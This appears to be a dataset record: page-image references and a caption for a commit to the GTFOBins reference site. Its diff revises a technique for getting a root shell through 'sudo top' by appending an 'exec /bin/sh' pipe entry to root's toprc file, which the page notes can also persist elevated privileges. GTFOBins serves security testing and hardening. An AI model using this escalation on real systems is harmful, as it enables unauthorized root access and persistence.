

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/top.md, in a window 1280 px wide. Shown: the top 704 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Fix and clarify sudo for top
Related #81.

```diff
--- a/_gtfobins/top.md
+++ b/_gtfobins/top.md
@@ -8,8 +8,9 @@ functions:
         # press return twice
         reset
   sudo:
-    - code: |
-        echo -e 'pipe\tx\texec /bin/sh 1>&0 2>&0' >>~/.config/procps/toprc
+    - description: This requires that the root configuration file is writable and might be used to persist elevated privileges.
+      code: |
+        echo -e 'pipe\tx\texec /bin/sh 1>&0 2>&0' >>/root/.config/procps/toprc
         sudo top
         # press return twice
         reset
```
